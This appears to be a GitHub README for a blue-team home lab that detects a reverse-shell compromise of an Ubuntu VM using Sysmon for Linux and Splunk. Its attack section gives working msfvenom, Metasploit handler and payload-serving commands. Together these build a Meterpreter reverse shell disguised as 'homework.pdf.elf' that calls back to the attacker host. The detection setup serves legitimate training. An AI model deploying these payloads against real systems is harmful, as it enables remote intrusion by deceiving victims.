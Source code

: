 # 💻 Sysmon-to-Splunk: Reverse Shell Attack Detection

**Stack:** VirtualBox, Kali Linux (attacker), Ubuntu (target), Sysmon-for-Linux, Splunk, Metasploit, msfvenom, python HTTP

**Focus:** Endpoint Telemetry, SIEM Integration, and Threat Detection

**Goal:** Build and analyze a real attack scenario using Sysmon for Linux and Splunk SIEM

## 🔍 Overview

This lab simulates a **realistic endpoint compromise** in a controlled environment.  
Using **Kali Linux** as the attacker and **Ubuntu** as the target, I generated and analyzed **Sysmon telemetry** to detect malicious activity through **Splunk SIEM**.

The project bridges **red-team tactics** and **blue-team analysis**, showing how attacker actions translate into logs, and how defenders can identify those behaviors.

## 🧱 Lab Setup and Architecture

1. Install VirtualBox on your host OS.

2. Create the VMs:
   - **Ubuntu target** — install from [ISO](https://ubuntu.com/download/desktop).
   - **Kali attacker** — import the [Kali](https://www.kali.org/get-kali/#kali-platforms) VirtualBox image (or install from ISO).
   - Both VMs are in a internal network.

1. Allocate resources:
   - Set RAM and CPU for each VM depending on host resources.
   - *Example:* Kali: 4 GB RAM, 4 vCPU. Ubuntu: 4 GB RAM, 3 vCPU.

| Network Diagram                       |
| ------------------------------------- |
| ![diagram](./docs/diagram.png)        |  

## ⚙️ Documentation

### 1. Install Splunk on Ubuntu (Target)

1. Download Splunk Enterprise for Linux (from [Splunk website](https://www.splunk.com/en_us/products/splunk-enterprise.html)) on the Ubuntu VM.

2. Keep in mind that you will need internet connection to install Splunk.

3. On Ubuntu, install:
```shell
# replace splunk_package.deb with the name of your .deb file
sudo dpkg -i ./splunk_package.deb

# start splunk
sudo /opt/splunk/bin/splunk start
   ```

4. Visit the Splunk web UI from the Ubuntu machine at: http://localhost:8000

### 2. Install Sysmon on Ubuntu (Target)

1. Please visit the official [sysmonforlinux](https://github.com/microsoft/SysmonForLinux) repo for more information.

2. Register Microsoft key and feed
```
wget -q https://packages.microsoft.com/config/debian/$(. /etc/os-release && echo ${VERSION_ID%%.*})/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
```

2. Install sysmonforlinux
```
sudo apt-get update
sudo apt-get install sysmonforlinux
```

3. Update sysmon config, with (provided config)[./configs/sysmonconfig.xml], taken from [OpenSecureCo](https://github.com/OpenSecureCo/Demos/blob/main/sysmonforlinux)
```
nano /opt/config.xml
```

4. To test, see logs using:
```
sudo tail -f /var/log/syslog | sudo /opt/sysmon/sysmonLogView
```

### 3. Malware

1. Note the ip of the attacker machine (Kali)
```
ip a
```

2. Create the reverse tcp payload with msfvenom using:
```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f elf -o homework.pdf.elf
```
*note: lhost is the attackeer ip, elf executable file format is used for payload.*

4. Start msfconsole and prepare the handler and run exploit
```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 192.168.20.11
exploit
```
- *note that the default payload for exploit/multi/handler is generic/shell_reverse_tcp (see below); explicitly set payload to linux/x64/meterpreter_reverse_tcp.*
[options](./docs/options.png)

5. Serve the payload with Python HTTP server
```
python3 -m http.server 9999
```

6. Install the malware on Ubuntu by visiting `192.168.20.11:9999` on a browser and downloading it from the python server. After installing:
```
chmod +x homework.pdf.elf
./homework.pdf.elf
```

7. After executing the payload, the handler on Kali should show a new Meterpreter session (see below). 
(handler)[./docs/establish.png]

- In msfconsole you can interact with the Ubunut machine from the attacker machine using `shell` with the following commands:
```
shell
ip a 
user
getent group
```
- `ip a` shows network interfaces
- `user` lists users
- `getent group` retrieves group info from administrative databases

8. On the target machine, we can see that we have an established connection with the attacker machine using `sudo ss -tp`:.
```
ESTAB  0  0  192.168.20.10:34944  192.168.20.11:4444  users:((“sh”,pid=8931,fd=4),(“homework.pdf.el”,pid=8370,fd=4))
```
- *note that the peer address (2nd ip) is the attacker machines ip with the port of the handler.*
link

### 4. Telemetry
a
1. Configure Splunk to ingest sysmon entries

- On the Ubuntu machine running Splunk , navigate to $SPLUNK_HOME/etc/apps/search/local/ or the inputs.conf location. If there's no inputs.conf present, copy from the default app folder and add:
```
[monitor:///var/log/syslog]
disabled = 0
index = endpoint
sourcetype = sysmon:linux
```

- Save the file and restart:
```
sudo /opt/splunk/bin/splunk restart
```

- In Splunk web: Settings → Indexes → Add new index: endpoint (or the name you used).

- Confirm data ingestion by searching the new index: index=endpoint in the Search & Reporting app, the resuilt shoud look like:
[result](./docs/search1.png)


2. Example Splunk queries

- All events in the endpoint index:
```
index=endpoint
```

- Search for attacker IP
```
index=endpoint "192.168.20.11"
```


## 💡 Future Improvements

> 🔧 **Work in Progress** — This is an work in progress lab, and I plan to improve it in the future.

- Add Splunk dashboards or alerts for Sysmon events.

- Test Windows Sysmon vs. Linux Sysmon telemetry differences.

- Add MITRE ATT&CK mapping for detected behaviors.


## 🏁 Final Thoughts

This lab bridges offensive and defensive cybersecurity skills, and allowed me to see how a SIEM can be used to detect, analyze, and investigate real-world attack activity in a safe environment.

